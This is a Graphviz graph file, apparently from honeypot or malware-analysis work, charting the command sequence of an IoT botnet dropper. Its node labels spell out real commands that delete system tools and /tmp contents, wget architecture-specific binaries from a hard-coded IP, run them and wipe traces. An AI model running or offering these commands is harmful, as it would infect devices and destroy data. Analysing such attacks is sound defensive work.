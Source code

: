 digraph {
0 [label="busybox rm -rf /tmp/*\r "];
0 -> 0
2 [label="busybox rm -rf /usr/bin/strings\r "];
2 -> 2
4 [label="busybox rm -rf /usr/bin/ps\r "];
4 -> 4
78 [label="busybox wget http://80.82.64.190/arm "];
78 -> 78
8 [label="busybox chmod +x arm "];
8 -> 92 [label=";,"];
92 [label="./arm "];
92 -> 94 [label=";,"];
94 [label="busybox rm -f arm*\r "];
94 -> 214 [label=";,"];
214 [label="rm -f *\r "];
214 -> 214
16 [label="busybox wget wget http://80.82.64.190/sparc "];
16 -> 16
18 [label="busybox chmod +x sparc "];
18 -> 112 [label=";,"];
112 [label="./sparc "];
112 -> 114 [label=";,"];
114 [label="busybox rm -f sparc*\r "];
114 -> 214 [label=";,"];
214 [label="rm -f *\r "];
214 -> 214
118 [label="busybox wget http://80.82.64.190/sh4 "];
118 -> 118
28 [label="busybox chmod +x sh4 "];
28 -> 132 [label=";,"];
132 [label="./sh4 "];
132 -> 134 [label=";,"];
134 [label="busybox rm -f sh4*\r "];
134 -> 214 [label=";,"];
214 [label="rm -f *\r "];
214 -> 214
138 [label="busybox wget http://80.82.64.190/powerpc440 "];
138 -> 138
38 [label="busybox chmod +x powerpc440 "];
38 -> 152 [label=";,"];
152 [label="./powerpc440 "];
152 -> 154 [label=";,"];
154 [label="busybox rm -f powerpc440*\r "];
154 -> 214 [label=";,"];
214 [label="rm -f *\r "];
214 -> 214
158 [label="busybox wget http://80.82.64.190/powerpc "];
158 -> 158
48 [label="busybox chmod +x powerpc "];
48 -> 172 [label=";,"];
172 [label="./powerpc "];
172 -> 174 [label=";,"];
174 [label="busybox rm -f powerpc*\r "];
174 -> 214 [label=";,"];
214 [label="rm -f *\r "];
214 -> 214
178 [label="busybox wget http://80.82.64.190/mipsel "];
178 -> 178
58 [label="busybox chmod +x mipsel "];
58 -> 192 [label=";,"];
192 [label="./mipsel "];
192 -> 194 [label=";,"];
194 [label="busybox rm -f mipsel*\r "];
194 -> 214 [label=";,"];
214 [label="rm -f *\r "];
214 -> 214
66 [label="busybox wget http://80.82.64.190/mips "];
66 -> 66
68 [label="busybox chmod +x mips "];
68 -> 210 [label=";,"];
210 [label="./mips "];
210 -> 212 [label=";,"];
212 [label="busybox rm -f mips*\r "];
212 -> 214 [label=";,"];
214 [label="rm -f *\r "];
214 -> 214
314 [label="\r "];
314 -> 314
78 [label="busybox wget http://80.82.64.190/arm "];
78 -> 78
180 [label="busybox cp /bin/busybox ./ "];
180 -> 82 [label=";,"];
82 [label="busybox cat arm busybox "];
82 -> 202 [label=";,"];
202 [label="busybox "];
202 -> 202
86 [label="busybox rm -f arm "];
86 -> 88 [label=";,"];
88 [label="busybox cp busybox arm "];
88 -> 208 [label=";,"];
208 [label="busybox rm -f busybox "];
208 -> 92 [label=";,"];
92 [label="./arm "];
92 -> 94 [label=";,"];
94 [label="busybox rm -f arm*\r "];
94 -> 214 [label=";,"];
214 [label="rm -f *\r "];
214 -> 214
98 [label="busybox wget http://80.82.64.190/sparc "];
98 -> 98
180 [label="busybox cp /bin/busybox ./ "];
180 -> 102 [label=";,"];
102 [label="busybox cat sparc busybox "];
102 -> 202 [label=";,"];
202 [label="busybox "];
202 -> 202
106 [label="busybox rm -f sparc "];
106 -> 108 [label=";,"];
108 [label="busybox cp busybox sparc "];
108 -> 208 [label=";,"];
208 [label="busybox rm -f busybox "];
208 -> 112 [label=";,"];
112 [label="./sparc "];
112 -> 114 [label=";,"];
114 [label="busybox rm -f sparc*\r "];
114 -> 214 [label=";,"];
214 [label="rm -f *\r "];
214 -> 214
118 [label="busybox wget http://80.82.64.190/sh4 "];
118 -> 118
180 [label="busybox cp /bin/busybox ./ "];
180 -> 122 [label=";,"];
122 [label="busybox cat sh4 busybox "];
122 -> 202 [label=";,"];
202 [label="busybox "];
202 -> 202
126 [label="busybox rm -f sh4 "];
126 -> 128 [label=";,"];
128 [label="busybox cp busybox sh4 "];
128 -> 208 [label=";,"];
208 [label="busybox rm -f busybox "];
208 -> 132 [label=";,"];
132 [label="./sh4 "];
132 -> 134 [label=";,"];
134 [label="busybox rm -f sh4*\r "];
134 -> 214 [label=";,"];
214 [label="rm -f *\r "];
214 -> 214
138 [label="busybox wget http://80.82.64.190/powerpc440 "];
138 -> 138
180 [label="busybox cp /bin/busybox ./ "];
180 -> 142 [label=";,"];
142 [label="busybox cat powerpc440 busybox "];
142 -> 202 [label=";,"];
202 [label="busybox "];
202 -> 202
146 [label="busybox rm -f powerpc440 "];
146 -> 148 [label=";,"];
148 [label="busybox cp busybox powerpc440 "];
148 -> 208 [label=";,"];
208 [label="busybox rm -f busybox "];
208 -> 152 [label=";,"];
152 [label="./powerpc440 "];
152 -> 154 [label=";,"];
154 [label="busybox rm -f powerpc440*\r "];
154 -> 214 [label=";,"];
214 [label="rm -f *\r "];
214 -> 214
158 [label="busybox wget http://80.82.64.190/powerpc "];
158 -> 158
180 [label="busybox cp /bin/busybox ./ "];
180 -> 162 [label=";,"];
162 [label="busybox cat powerpc busybox "];
162 -> 202 [label=";,"];
202 [label="busybox "];
202 -> 202
166 [label="busybox rm -f powerpc "];
166 -> 168 [label=";,"];
168 [label="busybox cp busybox powerpc "];
168 -> 208 [label=";,"];
208 [label="busybox rm -f busybox "];
208 -> 172 [label=";,"];
172 [label="./powerpc "];
172 -> 174 [label=";,"];
174 [label="busybox rm -f powerpc*\r "];
174 -> 214 [label=";,"];
214 [label="rm -f *\r "];
214 -> 214
178 [label="busybox wget http://80.82.64.190/mipsel "];
178 -> 178
180 [label="busybox cp /bin/busybox ./ "];
180 -> 182 [label=";,"];
182 [label="busybox cat mipsel busybox "];
182 -> 202 [label=";,"];
202 [label="busybox "];
202 -> 202
186 [label="busybox rm -f mipsel "];
186 -> 188 [label=";,"];
188 [label="busybox cp busybox mipsel "];
188 -> 208 [label=";,"];
208 [label="busybox rm -f busybox "];
208 -> 192 [label=";,"];
192 [label="./mipsel "];
192 -> 194 [label=";,"];
194 [label="busybox rm -f mipsel*\r "];
194 -> 214 [label=";,"];
214 [label="rm -f *\r "];
214 -> 214
198 [label="busybox wget http://80.82.64.190/mips busybox cp /bin/busybox ./ "];
198 -> 198
200 [label="busybox cat mips busybox "];
200 -> 202 [label=";,"];
202 [label="busybox "];
202 -> 202
204 [label="busybox rm -f mips "];
204 -> 206 [label=";,"];
206 [label="busybox cp busybox mips "];
206 -> 208 [label=";,"];
208 [label="busybox rm -f busybox "];
208 -> 210 [label=";,"];
210 [label="./mips "];
210 -> 212 [label=";,"];
212 [label="busybox rm -f mips*\r "];
212 -> 214 [label=";,"];
214 [label="rm -f *\r "];
214 -> 214
314 [label="\r "];
314 -> 314
218 [label="wget http://80.82.64.190/x86 -O /tmp/x86 "];
218 -> 218
220 [label="chmod +x /tmp/x86 "];
220 -> 222 [label=";,"];
222 [label="/tmp/x86 "];
222 -> 224 [label=";,"];
224 [label="rm -rf /tmp/x86\r "];
224 -> 226 [label=";,"];
226 [label="wget http://80.82.64.190/i686 -O /tmp/i686 "];
226 -> 226
228 [label="chmod +x /tmp/i686 "];
228 -> 230 [label=";,"];
230 [label="/tmp/i686 "];
230 -> 232 [label=";,"];
232 [label="rm -rf /tmp/i686\r "];
232 -> 234 [label=";,"];
234 [label="wget http://80.82.64.190/i586 -O /tmp/i586 "];
234 -> 234
236 [label="chmod +x /tmp/i586 "];
236 -> 238 [label=";,"];
238 [label="/tmp/i586 "];
238 -> 240 [label=";,"];
240 [label="rm -rf /tmp/i586\r "];
240 -> 242 [label=";,"];
242 [label="wget http://80.82.64.190/m68k -O /tmp/m68k "];
242 -> 242
244 [label="chmod +x /tmp/m68k "];
244 -> 246 [label=";,"];
246 [label="/tmp/m68k "];
246 -> 248 [label=";,"];
248 [label="rm -rf /tmp/m68k\r "];
248 -> 250 [label=";,"];
250 [label="wget http://80.82.64.190/test -O /tmp/test "];
250 -> 250
252 [label="chmod +x /tmp/test "];
252 -> 254 [label=";,"];
254 [label="/tmp/test "];
254 -> 256 [label=";,"];
256 [label="rm -rf /tmp/test\r "];
256 -> 258 [label=";,"];
258 [label="wget http://80.82.64.190/arm -O /tmp/arm "];
258 -> 258
260 [label="chmod +x /tmp/arm "];
260 -> 262 [label=";,"];
262 [label="/tmp/arm "];
262 -> 264 [label=";,"];
264 [label="rm -rf /tmp/arm\r "];
264 -> 266 [label=";,"];
266 [label="wget http://80.82.64.190/sparc -O /tmp/sparc "];
266 -> 266
268 [label="chmod +x /tmp/sparc "];
268 -> 270 [label=";,"];
270 [label="/tmp/sparc "];
270 -> 272 [label=";,"];
272 [label="rm -rf /tmp/sparc\r "];
272 -> 274 [label=";,"];
274 [label="wget http://80.82.64.190/sh4 -O /tmp/sh4 "];
274 -> 274
276 [label="chmod +x /tmp/sh4 "];
276 -> 278 [label=";,"];
278 [label="/tmp/sh4 "];
278 -> 280 [label=";,"];
280 [label="rm -rf /tmp/sh4\r "];
280 -> 282 [label=";,"];
282 [label="wget http://80.82.64.190/powerpc440 -O /tmp/powerpc440 "];
282 -> 282
284 [label="chmod +x /tmp/powerpc440 "];
284 -> 286 [label=";,"];
286 [label="/tmp/powerpc440 "];
286 -> 288 [label=";,"];
288 [label="rm -rf /tmp/powerpc440\r "];
288 -> 290 [label=";,"];
290 [label="wget http://80.82.64.190/powerpc -O /tmp/powerpc "];
290 -> 290
292 [label="chmod +x /tmp/powerpc "];
292 -> 294 [label=";,"];
294 [label="/tmp/powerpc "];
294 -> 296 [label=";,"];
296 [label="rm -rf /tmp/powerpc\r "];
296 -> 298 [label=";,"];
298 [label="wget http://80.82.64.190/mipsel -O /tmp/mipsel "];
298 -> 298
300 [label="chmod +x /tmp/mipsel "];
300 -> 302 [label=";,"];
302 [label="/tmp/mipsel "];
302 -> 304 [label=";,"];
304 [label="rm -rf /tmp/mipsel\r "];
304 -> 306 [label=";,"];
306 [label="wget http://80.82.64.190/mips -O /tmp/mips "];
306 -> 306
308 [label="chmod +x /tmp/mips "];
308 -> 310 [label=";,"];
310 [label="/tmp/mips "];
310 -> 312 [label=";,"];
312 [label="rm -rf /tmp/mips\r "];
312 -> 314 [label=";,"];
314 [label="\r "];
314 -> 314
}
